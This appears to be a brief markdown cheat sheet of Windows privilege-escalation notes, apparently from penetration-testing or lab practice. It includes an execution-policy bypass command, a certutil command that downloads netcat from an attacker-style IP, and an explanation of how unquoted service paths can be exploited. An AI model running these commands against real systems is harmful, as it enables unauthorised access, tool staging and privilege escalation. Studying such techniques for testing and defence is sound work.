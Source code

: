 # Windows privilege escalation

## Getting powershell to run script without entering powershell console mode

```sh
powershell.exe -noprofile -executionpolicy bypass -file .\script.ps1
```

## Transferring files

### Curtutil

If you don't have powershell access:

```sh
certutil.exe -urlcache -split -f "http://10.10.14.17/nc.exe" c:\temp\nc.exe
```

## Unquoted service paths

If the binPath is set to
```
C:\Program Files\Unquoted Path Service\Common Files\service.exe
```
Windows will search in this order:
```
C:\Program.exe
C:\Program Files\Unquoted.exe
C:\Program Files\Unquoted Path.exe
C:\Program Files\Unquoted Path Service\Common.exe
C:\Program Files\Unquoted Path Service\Common Files\service.exe
```